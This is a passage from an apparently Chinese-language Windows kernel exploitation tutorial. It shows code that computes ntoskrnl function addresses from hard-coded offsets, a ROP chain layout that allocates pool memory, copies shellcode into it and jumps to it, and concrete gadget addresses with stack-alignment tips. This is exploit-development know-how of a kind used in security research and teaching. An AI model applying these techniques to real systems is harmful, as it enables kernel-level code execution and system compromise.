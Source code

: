 [![](assets/1706090578-47b0adef3ba2a1293b03961e08cca116.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145317-4102794a-ba85-1.png)

```plain
unsigned long long base = ulGetKernelBase((PCHAR)"ntoskrnl.exe");
    unsigned long long ulExAllocatePoolWithTag = base + 0x9B203F;
    unsigned long long ulRtlCopyMemory = base + 0x40BEC0;
```

根据微软的函数调用规则，传参顺序是`rcx`，`rdx`，`r8`，返回地参数在`rax`中

那么一个理想的 ROP 布局

```plain
pop rcx rdx r8 ret
0
0x100
0xDEAD
ExAllocatePoolWithTag
---------------------------
pop rcx rdx r8 ret
0   ;暂时
shellcode_addr
0x100;
mov rcx, rax ret    ;此时 rcx = ExAllocatePoolWithTag 返回地内存地址
RtlCopyMemory
---------------------------
jmp rax
```

就这些 gadget 中的 pop 会消除`rsp+0x28`的驱动的`Handle`函数返回地址，所以首先是抬栈，如`sub rsp, 0x100`，在`jmp rax`之前多次调用`ret`来抬升`rsp`的值，最终回到`shellcode`调整为适用的`rsp`值。

**实际情况中也不会有恰好的 gadget 用**

实际上能用的`mov rcx, rax`可以通过以下方式实现

```plain
0x00000001408fa783 : push rax ; push rbx ; ret
0x00000001408fa77b : push rax ; push rdi ; ret
0x000000014020262C : pop rdi ; ret
```
